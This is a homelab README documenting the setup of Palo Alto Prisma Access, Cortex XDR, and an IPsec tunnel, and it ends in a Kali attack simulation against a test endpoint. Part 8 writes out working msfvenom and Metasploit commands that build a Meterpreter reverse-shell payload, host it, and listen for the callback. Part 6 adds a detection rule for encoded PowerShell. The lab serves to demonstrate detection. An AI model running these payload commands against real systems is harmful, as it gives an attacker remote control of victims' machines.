# Q3 Homelab — Palo Alto Networks SE Lab Kit

**Author:** Dee Raman  
**Completed:** March 2026  

This repo documents the full build-out of the Q3 KSO homelab, including Prisma Access deployment, Cortex XDR, site-to-site service connection, and a live attack simulation.

---

## Table of Contents

- [Lab Topology](#lab-topology)
- [Part 1: Prisma Access License Request](#part-1-prisma-access-license-request)
- [Part 2: Prisma Access Deployment — Mobile Users](#part-2-prisma-access-deployment--mobile-users)
- [Part 3: ADEM Configuration](#part-3-adem-configuration)
- [Part 4: Cortex XDR Agent Deployment](#part-4-cortex-xdr-agent-deployment)
- [Part 5: XDR Host Insights](#part-5-xdr-host-insights)
- [Part 6: Device Control & BIOC Rule](#part-6-device-control--bioc-rule)
- [Part 7: Service Connection — IPsec Tunnel to Prisma Access](#part-7-service-connection--ipsec-tunnel-to-prisma-access)
- [Part 8: Kali vs. XDR Attack Simulation](#part-8-kali-vs-xdr-attack-simulation)

---

## Lab Topology

| Component | Detail |
|---|---|
| Firewall | PA-VM (cloud-hosted) |
| Untrust Interface | `ethernet1/1` — `10.3.1.10/24` |
| Trust Interface | `ethernet1/2` — `10.3.2.10/24` |
| Tunnel Interface | `tunnel.2` — Security zone: `vpn` |
| Prisma Access Portal | `dee-lab.lab.gpcloudservice.com` |
| Service Connection | `raman-lab` (US Southeast) |
| Prisma Access Peer IP | `34.99.113.219` |
| XDR Console | `globalseacademy.xdr.us.paloaltonetworks.com` |
| Test Endpoint | Windows 11 x64 — `mini` |
| Attack Machine | Kali Linux 2026.1 — `192.168.1.230` |
| IKE Crypto | AES-256-CBC / SHA-256 / DH Group 20 / 8hr |

**VMware Workstation VMs:**
- `fw` — PA-VM firewall
- `pano` — Panorama (optional)
- `Windows 11 x64` — Target endpoint with XDR agent (`mini`)
- `Ubuntu 64-bit v2` — Linux test node
- `kali-linux-2026.1` — Attack machine

**PA-VM Security Policy:**

| Rule | Source Zone | Dest Zone | Source | Application | Action |
|---|---|---|---|---|---|
| ALLOW RDP FROM… | Untrust | Trust / Untrust | MY-PUBLIC-IP | any | Allow |
| ALLOW PING FROM… | Untrust | Untrust | MY-PUBLIC-IP | ping | Allow |
| ALLOW TRUST TO TRUST | Trust | Trust | any | any | Allow |
| ALLOW TRUST TO UNTRUST | Trust | Untrust | any | any | Allow |
| ALLOW UNTRUST PING | Untrust | Untrust | UNTRUST-IP | ping | Allow |
| DROP ALL | any | any | any | any | Drop |



---

## Part 1: Prisma Access License Request

Request a Prisma Access eval license in Salesforce and activate it in SCM.

1. Go to the PANW SE Sandbox Salesforce tenant:  
   `https://paloaltonetworks.lightning.force.com/lightning/r/Account/0010g00001gMAxaAAG/related/Eval_Requests__r/view`

2. Click **New** and fill in:

   | Field | Value |
   |---|---|
   | Eval Type | SE Lab Kit |
   | Eval Term | 365 |
   | SE Account | Palo Alto Networks SE Sandbox |
   | CSP Account | 123456789 |

3. Click **Next**, complete remaining fields, and submit.

4. Log into **Strata Cloud Manager (SCM)** to activate the license.

---

## Part 2: Prisma Access Deployment — Mobile Users

Deploy Prisma Access for GlobalProtect mobile users.

### SCM Setup

1. Navigate to: `Configuration > NGFW and Prisma Access`
2. Set **Configuration Scope** → **Prisma Access**
3. Click **Enable GlobalProtect** → select **GlobalProtect** when it appears in Overview.

---

### Infrastructure Tab

4. Under **Infrastructure Settings**:

   | Field | Value |
   |---|---|
   | Portal Hostname | `dee-lab.lab.gpcloudservice.com` |

5. Leave all other settings default.

6. Under **Prisma Access Locations**, select:
   - US West
   - US South
   - US Northeast
   - Japan Central *(optional)*





---

### GlobalProtect App Tab

7. Select **Default** under App Settings.
8. Click **Show Advanced Options > User Behavior** and configure:

   | Setting | Value |
   |---|---|
   | DEM for Prisma Access | Install and User cannot Enable or Disable DEM |
   | DEM for GP 6.3+ | Install the Agent |

9. Click **Save**.

---

### Add Local User

10. Navigate to: `Identity Services > Local Users & Groups`
11. Click **Add Local User**:

    | Field | Value |
    |---|---|
    | Username | `dee` |
    | Password | *(your password)* |

12. Click **Save** → **Push Config**

> ⏱️ Allow 1–2 hours for Prisma Access to spin up. May require multiple push attempts.

---

### Connect via GlobalProtect

13. Navigate to: `https://dee-lab.lab.gpcloudservice.com`
14. Log in with your local user credentials.
15. Download and install the GlobalProtect agent.
16. Enter portal address: `dee-lab.lab.gpcloudservice.com`
17. You should now be connected. ✅



---

## Part 3: ADEM Configuration

Enable Autonomous Digital Experience Management (ADEM) for Prisma Access mobile users.

1. In SCM, go to: `Insights > Application Experience`
2. Click the **⚙ settings icon** (top-right).

### Application Suite

3. **Application Suites** tab → **Create Application Suite**

   | Field | Value |
   |---|---|
   | Name | `youtube` |
   | Domain | `www.youtube.com` |

4. Click **Save**.

### Application Test

5. **Application Tests** tab → **Create Application Test**

   | Field | Value |
   |---|---|
   | Name | `youtube` |
   | Domain URL | `www.youtube.com` |

6. Click **Save**.
7. Run YouTube on the connected endpoint for **10–20 minutes**, then review the Application tab for telemetry.

---

## Part 4: Cortex XDR Agent Deployment

Deploy the Cortex XDR endpoint agent on the Windows test machine.

1. Go to: `https://globalseacademy.xdr.us.paloaltonetworks.com/dashboard`
2. Navigate to: `Inventory > Installations`
3. Click **Create** (top-right):

   | Field | Value |
   |---|---|
   | Name | Dee Raman Lab |
   | Platform | Windows |
   | Version | 9.1.0.20483 |
   | Other values | Leave as default |

4. Click **Create**.
5. Right-click the installation → **Agent Installation > 64-bit installer** → save the `.msi`.
6. Deploy the `.msi` on the **Windows 11 x64 machine (mini)**.
7. On the endpoint, open the XDR console and click **Check In Now**.
8. Wait ~5 minutes — the endpoint should appear as enabled. ✅

---

## Part 5: XDR Host Insights

Enable Host Insights on the XDR endpoint.

### Create Agent Settings Profile

1. Navigate to: `Inventory > Policy Management > Prevention > Profiles`
2. **Add Profile** → **Windows** → **Agent Settings** → **Next**

   | Field | Value |
   |---|---|
   | Name | Dee Agent Settings |
   | XDR Pro Capabilities | **Enabled** |

3. Click **Create**.

### Create Prevention Policy Rule

4. Navigate to: `Prevention > Policy Rules` → **Add Policy**

   | Field | Value |
   |---|---|
   | Name | Dee Lab |
   | Platform | Windows |
   | Agent Settings | Dee Agent Settings |

5. **Next** → Select Endpoint: `mini` → **Next** → **Done** ✅

---

## Part 6: Device Control & BIOC Rule

### Device Control — Block Floppy Disk

1. Navigate to: `Inventory > Policy Management > Extension > Profiles`
2. **Add Profile** → **Windows** → **Device Configuration** → **Next**

   | Field | Value |
   |---|---|
   | Name | Dee Block Floppy |
   | Option | ✅ Block Floppy Disk |

3. Click **Create**.

4. Navigate to: `Prevention > Policy Rules` → **Add Policy**

   | Field | Value |
   |---|---|
   | Name | Dee Lab Device Control |
   | Platform | Windows |
   | Agent Settings | Dee Block Floppy |

5. **Next** → Endpoint: `mini` → **Next** → **Done** ✅

---

### BIOC Rule — Detect Suspicious PowerShell

> **Note:** BIOC rules are applied globally — no per-agent assignment needed.

1. Navigate to: `Threat Management > Detection Rules > BIOC`
2. **Add BIOC**

   | Field | Value |
   |---|---|
   | Select | Process |
   | CMD | contains `-enc` |

3. Click **Save**, then fill in rule metadata:

   | Field | Value |
   |---|---|
   | Name | Possible PowerShell Execution - DR |
   | Type | Execution |
   | Severity | Low |
   | MITRE Technique | T1059 - Command and Scripting Interpreter |

4. Click **OK** ✅

---

## Part 7: Service Connection — IPsec Tunnel to Prisma Access

Configure a site-to-site IPsec service connection between the PA-VM and Prisma Access, then validate with a ping.

---

### SCM — Create Service Connection

1. Navigate to: `Configuration > NGFW and Prisma Access > Service Connections`
2. **Add Service Connection**:

   | Field | Value |
   |---|---|
   | Name | `raman-lab` |
   | Prisma Access Location | US Southeast |

3. Under **PA-G Primary Tunnel > Setup Tunnel**:

   | Field | Value |
   |---|---|
   | Tunnel Name | `dee-lab-ipsec` |
   | Branch Device Type | Other Devices |
   | Branch Device IP Address | Dynamic |
   | Pre-Shared Key | *(your PSK)* |

4. > ⚠️ **Commit now** to get the auto-generated service connection FQDN, e.g.:  
   > `raman-lab.us-southeast.sc.ossj2yygyo.lab.gpcloudservice.com`

5. Continue with IKE settings:

   | Field | Value |
   |---|---|
   | IKE Local ID | FQDN → *(SCM-generated FQDN above)* |
   | IKE Peer ID | User FQDN (email) → `draman@paloaltonetworks.com` |
   | IKE Passive Mode | ✅ Enabled |
   | IKE Protocol Version | IKEv2 only mode |
   | Encryption | aes-256-cbc |
   | Authentication | sha256 |
   | DH Group | group20 |
   | IKE Lifetime | 8 hours |

6. **Save every window.**



---

### PA-VM — IKE Crypto Profile

7. `Network > IKE Crypto` → **Add**

   | Field | Value |
   |---|---|
   | Name | `DEE-LAB-IKE-CRYPTO` |
   | DH Group | group20 |
   | Authentication | sha256 |
   | Encryption | aes-256-cbc |
   | Lifetime | 8 hours |

---

### PA-VM — IPsec Crypto Profile

8. `Network > IPSec Crypto` → **Add**

   | Field | Value |
   |---|---|
   | Name | `DEE-LAB-IPSEC-CRYPTO` |
   | Protocol | ESP |
   | Encryption | aes-256-cbc |
   | Authentication | sha256 |
   | DH Group | group20 |
   | Lifetime | 8 hours |

---

### PA-VM — IKE Gateway

9. `Network > IKE Gateways` → **Add**

   | Field | Value |
   |---|---|
   | Name | `ike-gw-prisma` |
   | Version | IKEv2 only mode |
   | Address Type | IPv4 |
   | Interface | `ethernet1/1` |
   | Local IP Address | None |
   | Peer IP | `34.99.113.219` |
   | Authentication | Pre-Shared Key |
   | PSK | *(must match SCM)* |
   | Local ID | User FQDN → `draman@paloaltonetworks.com` |
   | Peer ID | FQDN → `raman-lab.us-southeast.sc.ossj2yygyo.lab.gpcloudservice.com` |

10. **Advanced Options** → enable **NAT Traversal**
11. Set **IKE Crypto Profile**: `DEE-LAB-IKE-CRYPTO`





---

### PA-VM — Tunnel Interface

12. `Network > Interfaces > Tunnel` → **Add**

   | Field | Value |
   |---|---|
   | Name | `tunnel.2` |
   | Virtual Router | default |
   | Security Zone | `vpn` *(create new if needed)* |

---

### PA-VM — IPsec Tunnel

13. `Network > IPSec Tunnels` → **Add**

   | Field | Value |
   |---|---|
   | Name | `sc-lab-raman` |
   | Tunnel Interface | `tunnel.2` |
   | Type | Auto Key |
   | Address Type | IPv4 |
   | IKE Gateway | `ike-gw-prisma` |
   | IPSec Crypto Profile | `DEE-LAB-IPSEC-CRYPTO` |



---

### Initiate & Verify from CLI

14. SSH into the PA-VM and run:

   ```bash
   test vpn ipsec-sa tunnel sc-lab-raman
   ```

   Expected output once established:

   ```
   IKEv2 SA: ESTABLISHED ✅
     Algorithm : PSK/DH20/AES256/SHA256
     Peer      : 34.99.113.219:4500 (NAT-T working ✅)
     Lifetime  : 28800s (8 hours)
     Established: Mar.27 11:19:49
     Expires   : Mar.27 19:19:49

   IPsec SA: Mature ✅
     SPI in/out: DFA20C73 / 9456040E
   ```



15. Verify in SCM — the service connection should show:

   | Status | Value |
   |---|---|
   | Tunnel | ✅ OK |
   | Config | ✅ In Sync |



---

### Validate: Ping Through the Tunnel

16. From a **GlobalProtect-connected device**, ping the Windows VM on the branch LAN:

   ```
   Target: 10.3.2.20 (Windows 11 x64 — mini)
   ```

   Expected:
   ```
   64 bytes from 10.3.2.20: icmp_seq=1 ttl=128 time=1.43ms ✅
   64 bytes from 10.3.2.20: icmp_seq=2 ttl=128 time=0.99ms ✅
   64 bytes from 10.3.2.20: icmp_seq=3 ttl=128 time=1.99ms ✅
   24/24 packets — 0% loss ✅
   ```

> ⏱️ **Tip:** SCM can be slow and occasionally buggy. Be patient — tunnel negotiations and config pushes may need multiple attempts.

---

## Part 8: Kali vs. XDR Attack Simulation

Simulate a real attack: craft a Meterpreter payload on Kali, host it over HTTP, download it on the Windows endpoint, and watch Cortex XDR block it.

---

### 1. Set Up the Attack Machine (Kali Linux)

Open a terminal on the Kali VM and create the payload:

```bash
cd ~/Desktop

msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.230 \
  LPORT=80 \
  -f exe \
  -o malware.exe
```

Host it over HTTP:

```bash
python3 -m http.server 80
```

---

### 2. Set Up the Metasploit Listener

In a second terminal on Kali:

```bash
msfconsole -q -x "use exploit/multi/handler; \
  set payload windows/x64/meterpreter/reverse_tcp; \
  set LHOST 192.168.1.230; \
  set LPORT 80; \
  run"
```



---

### 3. Download the Payload on the Windows Endpoint

On **mini (Windows 11 x64)**, open a browser and go to:

```
http://192.168.1.230/malware.exe
```

The Kali HTTP server will show the directory listing including `malware.exe`.



Download and attempt to run `malware.exe`.

---

### 4. Cortex XDR Blocks the Execution

The moment `malware.exe` is executed, Cortex XDR detects and blocks it:

```
◆ Cortex XDR Prevention Alert

Cortex XDR has blocked a malicious activity!

  Application name:        malware.exe
  Application publisher:   Unknown
  Prevention description:  Suspicious executable detected

Please contact your help desk for questions or additional information.
```



---

### 5. Review in XDR Console

In the XDR console, navigate to **Incidents** or **Alerts** to confirm:

| Field | Value |
|---|---|
| Alert Type | Malware / Suspicious Executable |
| Endpoint | mini |
| File | `malware.exe` |
| Action | **Prevented** ✅ |

---

## Summary

| Task | Status |
|---|---|
| Prisma Access License Requested | ✅ |
| GlobalProtect Mobile Users Deployed | ✅ |
| ADEM Configured | ✅ |
| Cortex XDR Agent Deployed on mini | ✅ |
| Host Insights Enabled | ✅ |
| Device Control — Block Floppy | ✅ |
| BIOC Rule — PowerShell `-enc` Detection | ✅ |
| Service Connection (IPsec Tunnel) Live | ✅ |
| Ping Validated Through Tunnel (0% loss) | ✅ |
| Kali Attack Simulated & Blocked by XDR | ✅ |
